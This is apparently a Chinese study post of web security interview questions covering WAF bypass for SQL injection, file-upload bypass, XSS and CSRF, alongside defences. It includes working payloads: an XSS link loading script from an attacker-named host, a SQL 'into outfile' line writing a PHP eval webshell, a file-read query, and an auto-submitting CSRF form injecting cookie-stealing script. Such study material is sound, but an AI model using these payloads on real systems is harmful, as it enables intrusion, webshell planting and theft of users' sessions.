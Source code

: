 ```yaml
---
title: 网安面试问题汇总
date: 2022-02-07 12:56:59
categories: CTF
tags: [Web]
---
```


## 1.SQL注入的WAF绕过

- 白盒  框架源码，代码审计
- 黑盒绕过
  - 架构层绕过
  - 资源限制角度绕过
  - 协议层
  - 规则层面绕过

<!--more-->

### 架构层绕过

寻找源站点地址（适用于网站使用云WAF场景）；

利用同网段主机（同网段主机可以直接交换帧，无需交换机/网桥的转发）或服务器进行内网注入

> 通过网桥连接多个以太网成为覆盖更大的以太网（局域网：以太网，令牌环网，FDDI）。

碰撞/冲突域：任意两台主机通信（使用信道时，其他主机无法通信）——介质访问控制



### 资源限制角度绕过

- 多试一试，利用数据库特性
- 改其他格式文件，burp改文件后缀
- post的内容足够多——一个大的body；由于在线WAF会考虑速度，对大文件一般不过滤；

- 借助畸形包，或者模糊测试fuzz。

### 协议层绕过

- 参数污染，代入多个参数，有的WAF只能识别一个参数，可以在第二个参数后面带sql语句。

```php
  url.php?id=1&id=2
```

### **规则层的绕过**

- 注释符号#，‘ ’空白符号，函数分割，浮点数

- error-base，mysql特殊语法绕过

## 2.文件上传漏洞的绕过

- 修改后缀
- 绕后端：MineType，即修改Content-Type类型，%00截断（伪造合法文件头）
- Content-Disposition'...' filename="1.jpg;.php" ｜｜  去掉双引号 ｜｜ 把p  h  p换行   ｜｜php5
- webshell放入jpg；改幻数头字节，判断文件格式一般靠前10个字节。

### 文件上传漏洞的防护手段

- js过滤
- 限制文件大小
- 随机数改写文件名，取消执行权限，**将文件强制重命名另存储**
- 竞争条件？？
- 后端设置白名单（更安全，使用递归过滤，防治覆写）和黑名单（可能会有遗漏，可能靠大小写可以绕过）

## 3.XSS原理

>http://www.atomsec.org/%E5%AE%89%E5%85%A8/%E5%8F%8D%E5%B0%84%E5%9E%8Bxss%E6%B5%8B%E8%AF%95%E5%8F%8A%E4%BF%AE%E5%A4%8D/

跨站脚本攻击，允许恶意web用户将代码植入到提供给其它用户使用的页面中，用户访问时将会自动执行。

分为**存储型**，反射型和DOM型。

### 3.1 攻击办法：

闭合标签，使我的内容能被解析成可执行语句；对url和参数进行各种编码（比如16禁止和8进制）

### 3.2 防御手段：

将特殊字符过滤(",<,>,&"),使其成为不能被html执行的字符；

做白名单过滤，专门过滤，使用**内容安全的策略CSP**（规定客户端哪些内容可以加载）；

禁止非同源网站读cookie

- 反射型（给别人发送带有恶意脚本代码参数的URL，当URL地址被打开时，特有的恶意代码参数被HTML解析、执行。它的特点是非持久化，必须**用户点击带有特定参数的链接**才能引起。）

- 存储型——把用户cookie信息发到攻击者服务器

```js
在搜索框输入这一行在服务器上直接被解析成了js语句；
　“<script>alert(1)</script>”
search.php?q=%3Cscript+src%3Dhttp%3A%2F%2Fhacker.qq.com%2Fhacker.js%3E%3C%2Fscript%3E
```

当用户登陆了网站后，再欺骗用户点击这个链接才可以窃取用户的cookie。

## 深信服安全岗面试题

1.sql注入如何读写文件，二次注入，防御方式？

```sql
#读：
select load_file('C:\\key.txt')
#写：
开权限：secure_file_priv into outfile
unoion select 1,'<?php @eval($_POST[‘mima’]);?>',3 into outfile "C:\\test\shellcode.php"
#二次注入
admin'--  #借助--把后面的语句注释了
select ... username='admin'--  and password='xxx'
#sql注入的防御
- 预编译，例如Java中PrepareStatement，从结构上限制编写；
Mybatis？？ #预编译  $进行替换
- 参数判断，强转参数int(and 1==1--+)

```

2.CSRF和XSS的区别

XSS，原来叫做CSS (Cross Site Script) ，跨站调用脚本攻击站内的信任用户，盗取cookie；

CSRF通过伪装成受信任用户请求受信任的网站；

```asp
<%
s = "<form method='post' action='http://hi.baidu.com/yuxi4n/commit'>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='5' name='ct'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='1' name='spCssUse'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='1' name='spCssColorID'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='-1' name='spCssLayoutID'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='http://hi.baidu.com/yuxi4n/modify/spcss/20f51f4f94129a36aec3ab11.css/edit' name='spRefURL'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='5' name='cm'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='</style><script>alert(document.cookie)</script><style>' name='spCssText'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='abc' name='spCssName'/>"
s = s+"<input type='text' style='display:none!important;display:block;width=0;height=0' value='0' name='spCssTag'/>"
s = s+"</form>"
s = s+"<script>document.forms[0].submit();</script>"
Response.write(s)
%>
```



防御手段：CSRF Token+Referer的验证

> http://huaidan.org/archives/2561.html,借助CSRF和其他手段，可以把反射型XSS持久化利用，不一定需要用户去点击特殊构造的链接。



